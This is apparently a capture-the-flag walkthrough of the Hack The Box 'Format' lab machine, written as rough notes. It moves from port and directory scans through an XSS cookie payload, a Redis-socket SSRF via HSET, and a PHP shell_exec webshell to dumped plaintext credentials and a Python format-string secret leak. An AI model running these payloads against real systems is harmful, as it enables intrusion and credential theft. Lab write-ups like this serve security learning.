





```
└─$ nmap 10.10.11.213 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-05 03:28 EDT
Nmap scan report for 10.10.11.213
Host is up (0.65s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
3000/tcp open  ppp

```

└─$ dirb http://app.microblog.htb

-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Wed Jul  5 03:31:06 2023
URL_BASE: http://app.microblog.htb/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612                                                          

---- Scanning URL: http://app.microblog.htb/ ----
==> DIRECTORY: http://app.microblog.htb/dashboard/                                                                
+ http://app.microblog.htb/index.php (CODE:200|SIZE:3976)                                                         
==> DIRECTORY: http://app.microblog.htb/login/                                                                    
==> DIRECTORY: http://app.microblog.htb/logout/                                                                   
==> DIRECTORY: http://app.microblog.htb/register/                                                                 
                                                                                                                  
---- Entering directory: http://app.microblog.htb/dashboard/ ----
+ http://app.microblog.htb/dashboard/index.php (CODE:302|SIZE:0)                                                  
                                                                                                                  
---- Entering directory: http://app.microblog.htb/login/ ----
+ http://app.microblog.htb/login/index.php (CODE:200|SIZE:2475)   

### gobuster subdomain enumeration

```
gobuster vhost -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -u app.microblog.htb -t 50 --append-domain
```

no subdomain found



at port 3000 we have


http://microblog.htb:3000/cooper/microblog

we have the websiet source code

and at 80 we have


we create a subdomain


subomain has xss



<alert>console.log(document.cookie)</alert>

username=tettng728edelr80248dvidlk2

also Able to do LFI



curl -X HSET "http://microblog.htb/static/unix:%2Fvar%2Frun%2Fredis%2Fredis.sock:hyper%20pro%20true%20a/b"

YOU BECOME PRO THEN RUN lfi AGAIN

ntrusion

The server works through REDIS, in order to convert our account into Pro we must point to the socket and in HSET format. HSET basically what you do change the values ​​of the specified fields.

❯ curl -X HSET "http://microblog.htb/static/unix:%2Fvar%2Frun%2Fredis%2Fredis.sock:hyper%20pro%20true%20a/b"

Once we are a Pro user , we send a request through Burpsuite and ping our attacker's machine.

id=/var/www/microblog/hyper/uploads/rev.php&txt=<%3fphp+echo+shell_exec("ping+-c+1+10.10.14.119")%3b%3f>

redis /run/redis/redis.sock> HGETALL cooper.dooper
 1) "username"
 2) "cooper.dooper"
 3) "password"
 4) "zooperdoopercooper"
 5) "first-name"
 6) "Cooper"
 7) "last-name"
 8) "Dooper"
 9) "pro"
10) "false"



```
ooper@format:~$ sudo -l
[sudo] password for cooper: 
Matching Defaults entries for cooper on format:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User cooper may run the following commands on format:
    (root) /usr/bin/license

```

f we read the file we can perform a Python Format String Vulnerabilities . We connect to redis and get the password in plain text.

redis /var/run/redis/redis.sock> HMSET test first-name "{license.__init__.__globals__[secret_encoded]}" last-name test username test
OK
redis /var/run/redis/redis.sock> exit
cooper@format:~$ sudo /usr/bin/license -p test

Plaintext license key:
------------------------------------------------------
microblogtestAv*pd5bU$#)!Ef@un(7nX!vkA;)|AD:A}e/DET{tb'unCR4ckaBL3Pa$$w0rd'test

Encrypted license key (distribute to customer):
------------------------------------------------------
gAAAAABkZBqEo0E7jcv6FFBjGKoCi238MGNfhobcAFoqmkKXW0WJD0Sn1JuKMymKAEfTdV2Pz-zYlVuKrKgDZJp7ft-R4b





